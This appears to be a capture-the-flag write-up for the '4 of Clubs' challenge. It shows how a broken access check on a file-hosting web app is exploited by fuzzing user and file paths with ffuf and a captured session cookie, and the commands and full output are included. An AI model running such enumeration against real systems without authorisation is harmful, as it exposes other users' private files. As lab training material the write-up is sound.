


# 4 of Clubs | Port 15010
Go to **http://{Target-IP}:15010**


**Register** a user and **log in**.


You will be redirected to the **My Files** page where you can upload files.

Uploading a file called userlist.txt resulted in a file called userlist being saved to the **/users/{username}/files/** directory.




When navigating to **/users/test/files** we are redirected to the **My Files** page.

What happens if we try with another user, such as **test2**?


We are presented with a "Not found" response.

How about if we try a username which likely exists, such as "**admin**"?

When trying to access **/users/admin/files**, we are redirected back to our **My Files** page.

This unique behaviour means the username likely exists, which means we can try fuzzing the **users** directory for other users, or try fuzzing admin's **files** directory for files.

To fuzz for files, we will first need to obtain the cookie data and User-Agent header for our fuzz requests.

*Note: (The User-Agent header was discovered as a requisite through trial-and-error with the fuzzer tool.)*

This was done by intercepting a request to **{Target-IP}/users/admin/files/test** with BurpSuite.



ffuf was then used to fuzz the target:

`ffuf -w {wordlist} -u http://{Target-IP}:15010/users/admin/files/FUZZ -b "{cookie} -t 10 -H "{User-Agent}"`

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/admin/files/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

software                [Status: 200, Size: 271953, Words: 1181, Lines: 943]
security                [Status: 200, Size: 387545, Words: 3323, Lines: 1556]
upload                  [Status: 403, Size: 13, Words: 2, Lines: 1]
:: Progress: [207643/207643] :: Job [1/1] :: 93 req/sec :: Duration: [0:37:15] :: Errors: 0 ::
```


We discovered some new files, but they are just cute pictures of dogs!

However, since we now know we can view other user's files, we can also fuzz for other users.

`ffuf -w {wordlist} -u http://{Target-IP}:15010/users/FUZZ/files/ -b "{cookie} -t 10 -H "{User-Agent}`

```bash

				/'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

admin                   [Status: 403, Size: 13, Words: 2, Lines: 1]
staff                   [Status: 403, Size: 13, Words: 2, Lines: 1]
root                    [Status: 403, Size: 13, Words: 2, Lines: 1]
employee                [Status: 403, Size: 13, Words: 2, Lines: 1]
builder                 [Status: 403, Size: 13, Words: 2, Lines: 1]
```

Four additional users were found.

Fuzzing each of these usernames resulted in a couple more files being found per user, most of which were unimportant.

However, the **employee** user had a file called **fileadmin** **which happened to be the flag!

```bash
:: Method           : GET
 :: URL              : http://127.0.0.1:15010/users/employee/files/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 :: Header           : Cookie: rack.session=BAh7CUkiD3Nlc3Npb25faWQGOgZFVG86HVJhY2s6OlNlc3Npb246OlNlc3Npb25JZAY6D0BwdWJsaWNfaWRJIkU2NDE4ODAxOTM3OTQ4Y2ViMTUwZmZhN2FmMTk5Y2M0YWM1ZTRiMmE0OGQ2ODg5YjBiNTYzZDQxM2ExZGIyNTBlBjsARkkiCWNzcmYGOwBGSSIxaFdjUFh5aGJydGJINEJZaTJzS09KbERiK2RuampKL2hHTHZEd0V1dEVtbz0GOwBGSSINdHJhY2tpbmcGOwBGewZJIhRIVFRQX1VTRVJfQUdFTlQGOwBUSSItZDM3YjRiYWIwYzQ0MjFlYTc3MGU5YTZlMDNiMDI4Yjg0ZDllYzgwNQY7AEZJIg11c2VybmFtZQY7AEZJIgl5ZXNzBjsAVA%3D%3D--7471a96a69593b7ece9b6d8b90611b53611727b6
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

reports                 [Status: 200, Size: 23, Words: 3, Lines: 2]
upload                  [Status: 403, Size: 13, Words: 2, Lines: 1]
fileadmin               [Status: 200, Size: 169825, Words: 548, Lines: 649]
```


The fileadmin flag file!

```bash
└─$ md5sum fileadmin
1839e6ea9477521edab0a19979d20b29  fileadmin
```